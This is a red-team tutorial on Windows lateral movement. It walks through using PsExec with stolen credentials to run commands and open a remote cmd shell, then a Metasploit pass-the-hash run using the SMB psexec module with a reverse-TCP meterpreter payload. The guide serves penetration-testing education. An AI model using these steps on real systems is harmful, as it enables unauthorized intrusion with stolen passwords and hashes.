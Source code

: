 ```yaml
---
slug: windows-red-team-lateral-movement-techniques
title: "Windows Red Team Lateral Movement Techniques"
description: 'This guide covers the process of performing lateral movement on Windows systems.'
authors: ["HackerSploit"]
contributors: ["HackerSploit"]
published: 2021-11-03
keywords: ['security']
tags: ['security']
license: '[CC BY-ND 4.0](https://creativecommons.org/licenses/by-nd/4.0)'
---
```


{{% content "hackersploit-red-team-series-note-shortguide" %}}

{{% content "hackersploit-caution-shortguide" %}}

## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

![MITRE ATT&CK lateral movement techniques](mitre-attack-lateral-movement-techniques.png "MITRE ATT&CK lateral movement techniques")

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    ![PsExec - execute ipconfig command on target](psexec-execute-ipconfig-command-on-target.png "PsExec - execute ipconfig command on target")

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    ![PsExec - remote shell](psexec-remote-shell.png "PsExec - remote shell")

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    ![Meterpreter session from PsExec with Pass-the-Hash](meterpreter-session-from-psexec-with-pass-the-hash.png "Meterpreter session from PsExec with Pass-the-Hash")